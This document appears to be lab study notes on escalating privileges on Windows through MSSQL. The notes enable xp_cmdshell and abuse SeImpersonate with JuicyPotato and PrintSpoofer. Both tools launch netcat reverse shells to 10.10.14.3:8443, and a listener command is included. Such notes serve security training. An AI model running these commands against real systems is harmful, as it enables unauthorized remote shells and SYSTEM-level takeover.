### MSSQL Privilege Escalation

```bash
mssqlclient.py sql_dev@10.129.43.30 -windows-auth
```

### Enable xp_cmdshell
```sql
enable_xp_cmdshell
```

### Execute commands using xp_cmdshell
```sql
xp_cmdshell whoami
xp_cmdshell whoami /priv
```

### Exploiting with JuicyPotato
```sql
xp_cmdshell c:\tools\JuicyPotato.exe -l 53375 -p c:\windows\system32\cmd.exe -a "/c c:\tools\nc.exe 10.10.14.3 8443 -e cmd.exe" -t *
```

### Start netcat listener
```bash
nc -lnvp 8443
```

### Exploiting with PrintSpoofer
```sql
xp_cmdshell c:\tools\PrintSpoofer.exe -c "c:\tools\nc.exe 10.10.14.3 8443 -e cmd"
```


- **SeImpersonate Privilege:**
    - Its purpose and how it's used to impersonate other user tokens.
    - How it's often abused for privilege escalation ("Potato" attacks).
- **SeAssignPrimaryToken Privilege:**
    - Its purpose and how it relates to process tokens.
- **Token Impersonation:**
    - The general concept of how process tokens work in Windows.
- **Privilege Escalation via Service Accounts:**
    - How service accounts with these privileges can be exploited.
    - Examples involving SQL Server and IIS.
- **JuicyPotato:**
    - Its use in exploiting `SeImpersonate` and `SeAssignPrimaryToken`.
    - Its limitations on newer Windows versions.
- **PrintSpoofer:**
    - An alternative to JuicyPotato for newer Windows versions.
    - Its use in exploiting impersonation privileges.
- **MSSQL Exploitation:**
    - Using xp_cmdshell to gain code execution.
    - Using mssqlclient.py to connect to a sql server.
- **Reverse Shells:**
    - Using netcat to catch reverse shells.

